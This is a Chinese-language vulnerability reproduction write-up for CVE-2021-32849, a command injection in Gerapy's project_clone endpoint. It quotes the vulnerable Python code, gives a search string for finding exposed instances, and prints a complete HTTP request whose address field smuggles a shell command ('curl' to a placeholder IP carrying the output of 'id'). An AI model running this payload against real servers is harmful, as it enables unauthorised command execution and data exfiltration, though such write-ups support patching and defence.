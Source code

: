 # Gerapy clone 后台远程命令执行漏洞 CVE-2021-32849

## 漏洞描述

近日，我司应急团队监测到关于Gerapy 0.9.6和之前的版本中存在注入漏洞，漏洞编号：CVE-2021-32849，该漏洞源于程序没有正确清理通过project_clone端点传递给Popen的输入，攻击者可利用该漏洞执行任意命令。

## 漏洞影响

<a-checkbox checked>Gerapy <= 0.9.6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Gerapy"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1638069254477-82075ea9-6191-4ebd-8e92-bed0104a0942-20220313132339956.png)

出现漏洞的文件为 `gerapy/server/core/views.py`

![img](/assets/PeiQi-Wiki/img/1638069295816-0a643bcf-f47e-4611-8352-57f49a8ba53a.png)

```python
@api_view(['POST'])
@permission_classes([IsAuthenticated])
def project_clone(request):
    """
    clone project from github
    :param request: request object
    :return: json
    """
    if request.method == 'POST':
        data = json.loads(request.body)
        address = data.get('address')
        if not address.startswith('http'):
            return JsonResponse({'status': False})
        address = address + '.git' if not address.endswith('.git') else address
        cmd = 'git clone {address} {target}'.format(address=address, target=join(PROJECTS_FOLDER, Path(address).stem))
        logger.debug('clone cmd %s', mcd)
        p = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
        stdout, stderr = bytes2str(p.stdout.read()), bytes2str(p.stderr.read())
        logger.debug('clone run result %s', stdout)
        if stderr: logger.error(stderr)
        return JsonResponse({'status': True}) if not stderr else JsonResponse({'status': False})
```

这里可以看到 address参数 为可控参数，拼接到 cmd中使用 Popen命令执行，构造请求包

```python
POST /api/project/clone HTTP/1.1
Host: 
Content-Length: 61
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

{"address":"http://127.0.0.1;curl xxx.xxx.xxx.xxx:9999?`id`"}
```

![img](/assets/PeiQi-Wiki/img/1638069543218-d7275841-07af-4a10-a28a-065c329971b6.png)